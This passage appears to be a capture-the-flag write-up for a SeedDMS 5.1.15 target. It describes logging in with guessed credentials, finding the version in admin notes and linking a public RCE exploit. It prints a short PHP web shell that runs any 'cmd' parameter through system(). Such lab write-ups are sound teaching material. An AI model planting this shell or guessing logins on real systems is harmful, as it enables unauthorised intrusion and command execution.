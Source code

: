 After few tries, found the following credentials ```michelle:michelle``` work, We can access the dashboard:
![dashboard.JPG](images/dashboard.JPG)

We can see the Administrator notes:
>Dear colleagues, Because of security issues in the previously installed version (5.1.10), I upgraded SeedDMS to version 5.1.15. See the attached CH...

According to the admin notes -  we are dealing with SeedDMS 5.1.15 which we can found the following RCE [https://www.exploit-db.com/exploits/47022](https://www.exploit-db.com/exploits/47022).

First, Let's browse this link to add a new document [http://dms-pit.htb/seeddms51x/seeddms/out/out.AddDocument.php?folderid=8&showtree=1](http://dms-pit.htb/seeddms51x/seeddms/out/out.AddDocument.php?folderid=8&showtree=1):

![newdoc.JPG](images/newdoc.JPG)

```pshell.php``` file contains the follow:
```php
<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>
```
